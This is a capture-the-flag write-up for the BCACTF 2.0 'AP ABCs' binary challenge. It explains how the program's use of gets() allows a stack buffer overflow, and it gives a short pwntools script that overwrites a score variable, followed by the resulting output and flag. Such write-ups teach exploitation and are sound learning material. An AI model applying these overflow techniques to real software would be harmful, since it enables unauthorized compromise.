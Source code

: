 # BCACTF 2.0 – AP ABCs

* **Category:** Binex
* **Points:** 100
* **Author:** [Wesley V](https://github.com/retoxified)

## Challenge

> Oh wow, they put a freshman in AP ABCs? Never thought I'd see this happen. Anyways, good luck, and make sure to not cheat on your AP test!

## Solution

The challenge page provides us with a [binary](Backup/ap-abcs)) and the [C code](Backup/ap-abcs.c) it was compiled from.

Just like the previous challenge in this category, [Honors ABCs](Honors%20ABCs.md), this challenge asks us to recite the alphabet, however instead of having to score over 100 points, we're now tasked with scoring exactly 0x73434241 points.

In order to read our input, the [gets](https://man7.org/linux/man-pages/man3/gets.3.html) function is used, which comes with a "Never use this function" warning for a good reason, it performs no boundary checks and reads until a terminating newline or EOF is read. This means that we are free to overflow the buffer that the alphabet is being read into. 

Like the previous challenge I decided to load the binary up in [Ghidra](https://ghidra-sre.org/) to look at the decompiled code to figure out how many characters we need to get to the score.

![image](Docs/ap-abcs-1.jpg))

As we can see in the decompiler output, our input alphabet is stored in local_58(rbp-0x50), and the score is stored in local_c(rbp-0x04), substracting the two gives us 0x4C or 76 characters, the same as the previously challenge. To prevent our custom score from being overwritten we have to ensure that the very first character of our input is not equal to "a", so that we break out of the scoring loop before any score is set.

So that brings us to the final solution which is 76 characters followed by the required score.

The script I used to solve this challenge is nearly the same as the previous one;
```python
from pwn import *

#p = process('ap-abcs')
p = remote('bin.bcactf.com', 49154)
p.sendline(b"z"*76 + p32(0x73434241))

p.interactive()
```

This will eventually output the following;
```
Welcome to AP ABCs!
Unlike the non-AP class, you get the privilege of taking the AP test.
Wow, I know, so exciting right??!1
Anyways, good luck!
...
Answer for 1: 
You got a 1933787713 on your APs.
Tsk tsk tsk.
Cheating on the AP® tests is really bad!
Let me read you the College Board policies:
...
And take your flag: bcactf{bca_is_taking_APs_in_june_aaaaaaaa_wish_past_me_luck}
```

So the flag for this challenge is:

`bcactf{bca_is_taking_APs_in_june_aaaaaaaa_wish_past_me_luck}`